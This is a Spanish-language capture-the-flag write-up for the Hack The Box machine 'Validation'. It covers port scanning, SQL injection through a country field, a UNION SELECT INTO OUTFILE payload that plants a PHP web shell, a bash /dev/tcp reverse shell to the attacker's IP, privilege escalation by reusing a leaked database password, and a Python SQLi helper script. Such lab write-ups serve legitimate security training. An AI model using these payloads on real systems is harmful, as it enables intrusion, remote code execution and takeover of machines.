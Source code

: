 ```yaml
---
layout: single
title: Validation HTB - WriteUp
excerpt: WriteUp de la máquina Validation de HTB.
date: 2023-02-20
classes: wide
header:
  teaser: /assets/images/Validation/Validation.png
  teaser_home_page: true
  icon: /assets/images/Validation/Validation.png
categories:
  - infosec
tags:
  - ctf
  - Linux                                                                                                                                                                                 
  - Writeup
  - SQLI                                                                                                                                                                                  
  - Scripting                                                                                                                                                                                    
  - PasswordLeaked
---
```


En el dia de hoy estaré resolviendo la máquina Validation de HTB.

### Enumaración Inicial.

Lo primero que haremos será un escaneo de puertos con nmap.

```bash
 nmap -sC -sV -Pn -p22,80,4566,8080 10.10.11.116
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-20 09:54 CET
Nmap scan report for 10.10.11.116
Host is up (0.080s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)'
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.52 seconds
```

Vemos 4 puertos abiertos:

- Puerto 22 -> OpenSSH 8.2p1 (no tenemos ni usuarios ni contraseñas)
- Puerto 80 ->  HTTP, tenemos una web que nos permite registrar usuarios por pais.
- Puerto 4566 -> HTTP, Una web que responde con un código de estado 403
- Puerto 8080 ->  HTTP, Responde con un código de estado 502

Lo primero que he hecho ha sido centrarme en el puerto 80, debido a que es el que tiene contenido accesible.

Lo primero que veremos será esto.

![](/assets/images/Validation/image1.png)

Podremos añadir usuarios a una lista de paises, voy a capturar la petición con Burpsuite y veré como se esta haciendo. He probado una inyección SQL en el pais añadiendo una comilla simple.

![](/assets/images/Validation/image2.png)

### Explotación Web.

Nos hace una redirección, si la seguimos no veremos ningun error... Pero si nos fijamos bien, nos está cambiando la cookie "user" intenté lo mismo con el valor de cookie nuvo y bingo...
Si seguimos la redirección tenemos SQLI.

![](/assets/images/Validation/image3.png)

Despues de enumerar ordenar las columnas (tiene 1) y enumerar a traves UNION SELECT bases de datos, tablas y columnas no encontré nada. En este momento intenté cargar archvios del sistema y ademas escribir en este.

![](/assets/images/Validation/image4.png)

Utilice este payload para ver si podía leer el passwd de la máquina víctima.

![](/assets/images/Validation/image5.png)

Podemos leer archivos del sistema... ¿Podremos escribir un archivo? Usaré este payload.

![](/assets/images/Validation/image6.png)

```php
username=test2&country=Brazil'union+select+'<?php+system($_GET["cmd"]);+?>'+into+outfile+'/var/www/html/shell.php'--+-
```

Gracias al error que provocamos inyectando una comilla sabemos la ruta del servidor web, si el payload anterior funciona guardaremos un archivo llamado shell.php que contendrá:

```php
<?php system($_GET["cmd"]); ?>
```

Esto nos permitirá pasarle comandos por GET por el parametro de consulta cmd. Si mandamos la petición con Burpsuite veremos que nos devuelve un error. Esto no significa que no se haya subido el archivo, vamos a ver si existe.

```bash
  curl -s -X GET "http://10.10.11.116/shell.php?cmd=id" 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Tenemos RCE ahora trataré de establecerme una revshell.

```bash
curl -s -G "http://10.10.11.116/shell.php" --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'"
```

Si miramos nuestro listener tendremos shell como el usuario www-data. 

```bash
 nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.116] 38848
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$
```

### Enumeración del sistema

Lo primero que hice fue hacer el tratamiento de la tty. https://ironhackers.es/tutoriales/como-conseguir-tty-totalmente-interactiva/

Si nos fijamos en el passwd no había usuarios que tengan asignada una bash, unicamente root. En el directorio que contiene la web podemos encontrar un archivo de configuración. que contiene lo siguiente:

```bash
www-data@validation:/var/www/html$ cat config.php 
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

### Explotación del sistema

Si probamos esa password para el usuario root veremos que es valida.

```bash
www-data@validation:/var/www/html$ su root
Password: 
root@validation:/var/www/html#
```

¡Happy Hacking!

### Bonus

Script para explotar el SQLI

```python
import requests,sys,signal,time
from bs4 import BeautifulSoup


proxies={"http":"http://127.0.0.1:8080"}
url="http://10.10.11.116/"


def handler(sig,frame):
        print ("\n[!] Saliendo...")
        sys.exit(1)

signal.signal(signal.SIGINT,handler)


def sqli(payload):

        data={"username":"test3","country":"{payload}".format(payload=payload)}

        s = requests.Session()
        r=s.post(url,data=data,proxies=proxies)
        response=r.text

        soup = BeautifulSoup(response, 'html.parser')
        print (soup.find_all(class_="text-white"))



if __name__ == '__main__':

        while True:

                payload  = input("\n$ Introduce el payload: ")
                sqli(payload)
```

